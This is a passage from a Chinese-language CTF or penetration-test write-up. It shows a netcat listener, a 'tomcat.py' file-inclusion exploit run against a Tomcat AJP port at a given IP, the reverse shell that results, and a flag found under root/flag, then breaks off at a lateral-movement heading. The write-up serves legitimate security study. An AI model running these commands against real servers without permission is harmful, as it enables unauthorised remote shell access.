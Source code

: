 提交后得到文件

[![](assets/1705989181-dd9aac6c1c901305399636946ba294e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165941-94150f3a-b904-1.png)

## 反弹 shell

首先监听端口

```bash
nc -lvnp 7777
```

接下来使用脚本进行文件包含

```bash
python3 tomcat.py http://39.99.243.184:8080/ 8009 xx.txt   eval
```

[![](assets/1705989181-1d396efe5424f6ae1e3524f9ce5ef6a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165948-989e6bbe-b904-1.png)

而后在监听处可得到 shell，在`root/flag`文件夹下发现`flag`

[![](assets/1705989181-176ea15b09987890ae71fdd3bcf0ca45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165953-9b9248ea-b904-1.png)

# 内网横向
